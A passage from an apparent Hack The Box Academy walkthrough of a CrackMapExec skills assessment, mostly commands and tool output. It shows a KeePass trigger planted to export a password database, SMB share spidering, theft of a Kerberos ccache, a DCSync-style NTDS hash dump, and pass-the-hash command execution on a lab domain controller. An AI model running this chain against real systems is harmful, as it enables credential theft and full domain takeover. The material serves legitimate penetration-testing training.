KEEPASS_... 172.16.15.20    445    DEV01            [*] Adding trigger "export_database" to "C:/Users/Administrator/AppData/Roaming/KeePass/KeePass.config.xml"
KEEPASS_... 172.16.15.20    445    DEV01            [+] Malicious trigger successfully added, you can now wait for KeePass reload and poll the exported files
KEEPASS_... 172.16.15.20    445    DEV01            
KEEPASS_... 172.16.15.20    445    DEV01            [-] No running KeePass process found, aborting restart
KEEPASS_... 172.16.15.20    445    DEV01            [*] Polling for database export every 5 seconds, please be patient
KEEPASS_... 172.16.15.20    445    DEV01            [*] we need to wait for the target to enter his master password ! Press CTRL+C to abort and use clean option to cleanup everything
...
KEEPASS_... 172.16.15.20    445    DEV01            [+] Found database export !
KEEPASS_... 172.16.15.20    445    DEV01            [+] Moved remote "C:\Users\Public\export.xml" to local "/tmp/export.xml"
KEEPASS_... 172.16.15.20    445    DEV01            
KEEPASS_... 172.16.15.20    445    DEV01            [*] Cleaning everything..
KEEPASS_... 172.16.15.20    445    DEV01            [*] No export found in C:\Users\Public , everything is cleaned
KEEPASS_... 172.16.15.20    445    DEV01            [*] Found trigger "export_database" in configuration file, removing
KEEPASS_... 172.16.15.20    445    DEV01            [-] No running KeePass process found, aborting restart
KEEPASS_... 172.16.15.20    445    DEV01            
KEEPASS_... 172.16.15.20    445    DEV01            [*] Extracting password..
```

More credentials are to be found in the export.xml:

Code: shell

```shell
cat /tmp/export.xml 
```

Skills Assessment

```shell-session
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ cat /tmp/export.xml 

<SNIP>
				</String>
				<String>
					<Key>Password</Key>
					<Value ProtectInMemory="True">ASU934as0-dm23asd!</Value>
				</String>
```

Compromising a new set of credentials `nick:ASU934as0-dm23asd!`, students need to enumerate shares on the DC:

Code: shell

```shell
proxychains4 -q crackmapexec smb 172.16.15.3 -u nick -p ASU934as0-dm23asd! --shares
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec smb 172.16.15.3 -u nick -p ASU934as0-dm23asd! --shares

SMB         172.16.15.3     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.15.3     445    DC01             [+] INLANEFREIGHT.LOCAL\nick:ASU934as0-dm23asd! 
SMB         172.16.15.3     445    DC01             [+] Enumerated shares
SMB         172.16.15.3     445    DC01             Share           Permissions     Remark
SMB         172.16.15.3     445    DC01             -----           -----------     ------
SMB         172.16.15.3     445    DC01             ADMIN$                          Remote Admin
SMB         172.16.15.3     445    DC01             C$                              Default share
SMB         172.16.15.3     445    DC01             Ccache          READ,WRITE      Ccache Files for Users
SMB         172.16.15.3     445    DC01             CertEnroll      READ            Active Directory Certificate Services share
SMB         172.16.15.3     445    DC01             DEV                             Development Share
SMB         172.16.15.3     445    DC01             DEV_INTERN                      Development Share for Interns
SMB         172.16.15.3     445    DC01             IPC$            READ            Remote IPC
SMB         172.16.15.3     445    DC01             NETLOGON        READ            Logon server share 
SMB         172.16.15.3     445    DC01             SYSVOL          READ            Logon server share 
```

The Ccache share has read and write privileges. Students need to spider the share to search for the flag.

Code: shell

```shell
proxychains4 -q crackmapexec smb 172.16.15.3 -u nick -p ASU934as0-dm23asd! --spider Ccache --regex .
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec smb 172.16.15.3 -u nick -p ASU934as0-dm23asd! --spider Ccache --regex .

SMB         172.16.15.3     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.15.3     445    DC01             [+] INLANEFREIGHT.LOCAL\nick:ASU934as0-dm23asd! 
SMB         172.16.15.3     445    DC01             [*] Started spidering
SMB         172.16.15.3     445    DC01             [*] Spidering .
SMB         172.16.15.3     445    DC01             //172.16.15.3/Ccache/. [dir]
SMB         172.16.15.3     445    DC01             //172.16.15.3/Ccache/.. [dir]
SMB         172.16.15.3     445    DC01             //172.16.15.3/Ccache/flag.txt [lastm:'2022-12-15 19:56' size:27]
SMB         172.16.15.3     445    DC01             //172.16.15.3/Ccache/svc_inlaneadm@INLANEFREIGHT.LOCAL_krbtgt~INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL.ccaches [lastm:'2023-01-18 16:03' size:1484]
SMB         172.16.15.3     445    DC01             [*] Done spidering (Completed in 0.5753636360168457)
```

Once the content of the share has been revealed, students need to get the flag:

Code: shell

```shell
proxychains4 -q crackmapexec smb 172.16.15.3 -u nick -p ASU934as0-dm23asd! --share Ccache --get-file flag.txt flag.txt
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec smb 172.16.15.3 -u nick -p ASU934as0-dm23asd! --share Ccache --get-file flag.txt flag.txt
SMB         172.16.15.3     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.15.3     445    DC01             [+] INLANEFREIGHT.LOCAL\nick:ASU934as0-dm23asd! 
SMB         172.16.15.3     445    DC01             [*] Copy flag.txt to flag.txt
SMB         172.16.15.3     445    DC01             [+] File flag.txt was transferred to flag.txt
```

At last, the flag can be read:

Code: shell

```shell
cat flag.txt
```

Skills Assessment

```shell-session
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ cat flag.txt

Non_D0m41n_@dM1ns_H@s_Privs
```

Answer: {hidden}

# Skills Assessment

## Question 5

### "Gain access to the DC01 and submit the contents of the flag located in C:\Users\Administrator\Desktop\flag.txt."

Students need to download the `ccache` file:

Code: shell

```shell
proxychains4 -q crackmapexec smb 172.16.15.3 -u nick -p ASU934as0-dm23asd! --share Ccache --get-file 'svc_inlaneadm@INLANEFREIGHT.LOCAL_krbtgt~INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL.ccaches' svc_inlaneadm.ccache
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec smb 172.16.15.3 -u nick -p ASU934as0-dm23asd! --share Ccache --get-file 'svc_inlaneadm@INLANEFREIGHT.LOCAL_krbtgt~INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL.ccaches' svc_inlaneadm.ccache

SMB         172.16.15.3     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.15.3     445    DC01             [+] INLANEFREIGHT.LOCAL\nick:ASU934as0-dm23asd! 
SMB         172.16.15.3     445    DC01             [*] Copy svc_inlaneadm@INLANEFREIGHT.LOCAL_krbtgt~INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL.ccaches to svc_inlaneadm.ccache
SMB         172.16.15.3     445    DC01             [+] File svc_inlaneadm@INLANEFREIGHT.LOCAL_krbtgt~INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL.ccaches was transferred to svc_inlaneadm.ccache
```

Next, students need to set the KRB5CCNAME environment variable to use the ccache file:

Code: shell

```shell
export KRB5CCNAME=$(pwd)/svc_inlaneadm.ccache
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ export KRB5CCNAME=$(pwd)/svc_inlaneadm.ccache
```

Additionally, students need to check users with DCSync privileges:

Code: shell

```shell
proxychains4 -q crackmapexec ldap dc01.inlanefreight.local -u Juliette -p Password1 -M daclread -o TARGET_DN="DC=inlanefreight,DC=local" ACTION=read RIGHTS=DCSync
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec ldap dc01.inlanefreight.local -u Juliette -p Password1 -M daclread -o TARGET_DN="DC=inlanefreight,DC=local" ACTION=read RIGHTS=DCSync

SMB         dc01.inlanefreight.local 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
LDAP        dc01.inlanefreight.local 389    DC01             [+] INLANEFREIGHT.LOCAL\Juliette:Password1 
DACLREAD    dc01.inlanefreight.local 389    DC01             Be carefull, this module cannot read the DACLS recursively.
DACLREAD    dc01.inlanefreight.local 389    DC01             Target principal found in LDAP (DC=INLANEFREIGHT,DC=LOCAL)
[*]  ACE[15] info                
[*]    ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
[*]    ACE flags                 : None
[*]    Access mask               : ControlAccess
[*]    Flags                     : ACE_OBJECT_TYPE_PRESENT
[*]    Object type (GUID)        : DS-Replication-Get-Changes-All (1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
[*]    Trustee (SID)             : Domain Controllers (S-1-5-21-3514599724-1682172728-4136368490-516)
[*]  ACE[16] info                
[*]    ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
[*]    ACE flags                 : None
[*]    Access mask               : ControlAccess
[*]    Flags                     : ACE_OBJECT_TYPE_PRESENT
[*]    Object type (GUID)        : DS-Replication-Get-Changes-All (1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
[*]    Trustee (SID)             : svc_inlaneadm (S-1-5-21-3514599724-1682172728-4136368490-4642)
[*]  ACE[29] info                
[*]    ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
[*]    ACE flags                 : None
[*]    Access mask               : ControlAccess
[*]    Flags                     : ACE_OBJECT_TYPE_PRESENT
[*]    Object type (GUID)        : DS-Replication-Get-Changes-All (1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
[*]    Trustee (SID)             : Administrators (S-1-5-32-544)
```

Leading to a complete dump the NTDS secrets:

Code: shell

```shell
proxychains4 -q crackmapexec smb dc01.inlanefreight.local --use-kcache --ntds --user administrator
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec smb dc01.inlanefreight.local --use-kcache --ntds --user administrator

SMB         dc01.inlanefreight.local 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         dc01.inlanefreight.local 445    DC01             [+] INLANEFREIGHT.LOCAL\svc_inlaneadm from ccache 
SMB         dc01.inlanefreight.local 445    DC01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         dc01.inlanefreight.local 445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         dc01.inlanefreight.local 445    DC01             INLANEFREIGHT.LOCAL\Administrator:500:aad3b435b51404eeaad3b435b51404ee:935f8a2f4fc9ec7b45c54a1044c74c08:::
SMB         dc01.inlanefreight.local 445    DC01             [+] Dumped 1 NTDS hashes to /home/htb-ac594497/.cme/logs/DC01_dc01.inlanefreight.local_2023-01-18_162514.ntds of which 1 were added to the database
SMB         dc01.inlanefreight.local 445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         dc01.inlanefreight.local 445    DC01             [*] cat /home/htb-ac594497/.cme/logs/DC01_dc01.inlanefreight.local_2023-01-18_162514.ntds | grep -iv disabled | cut -d ':' -f1
```

At last, students can authenticate as the domain administrator, passing the hash to read the flag:

Code: shell

```shell
proxychains4 -q crackmapexec smb dc01.inlanefreight.local -u Administrator -H 935f8a2f4fc9ec7b45c54a1044c74c08 -x "more c:\users\administrator\desktop\flag.txt"
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-vrusmlzx7j]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec smb dc01.inlanefreight.local -u Administrator -H 935f8a2f4fc9ec7b45c54a1044c74c08 -x "more c:\users\administrator\desktop\flag.txt"
SMB         dc01.inlanefreight.local 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         dc01.inlanefreight.local 445    DC01             [+] INLANEFREIGHT.LOCAL\Administrator:935f8a2f4fc9ec7b45c54a1044c74c08 (Pwn3d!)
SMB         dc01.inlanefreight.local 445    DC01             [+] Executed command 
SMB         dc01.inlanefreight.local 445    DC01             CME_R00cK$
```

The flag reads `CME_R00cK$`.

Answer: {hidden}